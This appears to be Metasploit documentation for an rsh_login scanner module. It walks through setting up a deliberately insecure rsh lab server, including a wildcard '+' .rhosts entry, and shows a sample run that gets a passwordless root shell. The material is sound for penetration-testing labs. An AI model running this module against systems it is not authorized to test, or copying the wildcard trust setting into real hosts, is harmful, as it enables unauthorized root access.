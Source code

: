 ## Vulnerable Application

The R Services (rexecd, rlogind, and rshd) are a suite of unencrypted remote command/login services developed in the 1980s.
These services are all but unused in modern computing, as they have been replace by telnet and ssh.

`rsh` relies on host names as a security mechanism.  Utilizing `+` can wildcard so any computer can connect.  In the following
config, we'll utilize that wildcarded setting to simplify our exploitation.  **This is a glaring security issue!!!**
However, there are exceptions to this in proprietary Unix systems which may include other mechanisms such as Kerberos
([AIX](https://www.ibm.com/support/knowledgecenter/en/ssw_aix_71/com.ibm.aix.cmds4/rsh.htm))

If you encounter `Host address mismatch for `..., you may need to adjust your `/etc/hosts` file accordingly.

The following was done on Kali linux:

  1. `apt-get install rsh-server` which includes: `rexecd`, `rlogind` and `rshd`.
  2. ```echo "+" > ~/.rhosts```
  3. Start the service: `service openbsd-inetd start`

## Verification Steps

  1. Install and configure rexec
  2. Start msfconsole
  3. Do: `use auxiliary/scanner/rservices/rsh_login`
  4. Do: `set rhosts`
  5. Set any other credentials that will need to be set
  6. Do: `run`

## Scenarios

  A run against the configuration from these docs

  ```
    msf > use auxiliary/scanner/rservices/rsh_login 
    msf auxiliary(rsh_login) > set rhosts 10.1.2.3
    rhosts => 10.1.2.3
    msf auxiliary(rsh_login) > set username root
    username => root
    msf auxiliary(rsh_login) > run
    
    [*] 10.1.2.3:514     - 10.1.2.3:514 - Starting rsh sweep
    [*] 10.1.2.3:514     - 10.1.2.3:514 - Attempting rsh with username 'root' from 'root'
    [+] 10.1.2.3:514     - 10.1.2.3:514, rsh 'root' from 'root' with no password.
    [!] 10.1.2.3:514     - *** auxiliary/scanner/rservices/rsh_login is still calling the deprecated report_auth_info method! This needs to be updated!
    [!] 10.1.2.3:514     - *** For detailed information about LoginScanners and the Credentials objects see:
    [!] 10.1.2.3:514     -      https://github.com/rapid7/metasploit-framework/wiki/Creating-Metasploit-Framework-LoginScanners
    [!] 10.1.2.3:514     -      https://github.com/rapid7/metasploit-framework/wiki/How-to-write-a-HTTP-LoginScanner-Module
    [!] 10.1.2.3:514     - *** For examples of modules converted to just report credentials without report_auth_info, see:
    [!] 10.1.2.3:514     -      https://github.com/rapid7/metasploit-framework/pull/5376
    [!] 10.1.2.3:514     -      https://github.com/rapid7/metasploit-framework/pull/5377
    [*] Command shell session 1 opened (10.1.2.3:1023 -> 10.1.2.3:514) at 2017-05-11 19:56:46 -0400
    [*] Scanned 1 of 1 hosts (100% complete)
    [*] Auxiliary module execution completed
  ```

## Confirming

At the time of writing this, there was no `nmap` script equivalent.  Most modern systems have also replaced `rsh` with `ssh`.
